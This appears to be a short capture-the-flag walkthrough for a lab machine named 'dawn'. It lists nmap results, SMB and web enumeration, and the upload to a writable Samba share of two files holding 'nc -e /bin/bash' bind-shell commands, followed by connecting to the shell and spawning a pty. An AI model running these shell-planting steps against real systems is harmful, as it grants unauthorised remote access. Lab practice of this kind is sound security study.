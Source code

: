 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# dawn
# 4/2/2023

----------------------------------------------------
# nmap result
----------------------------------------------------
PORT     STATE SERVICE     VERSION
80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL 5.5.5-10.3.15-MariaDB-1

dirb http://192.168.54.11/

http://192.168.54.11/logs
enum4linux 192.168.54.11
smbclient //192.168.54.11/ITDEPT

echo "nc -e /bin/bash -lvp 1234 &" > product-control
echo "nc -e /bin/bash -lvp 1235 &" > web-control
ls


put product-control
put web-control
ls

nc 192.168.54.11 1234
python -c 'import pty;pty.spawn("/bin/bash")'
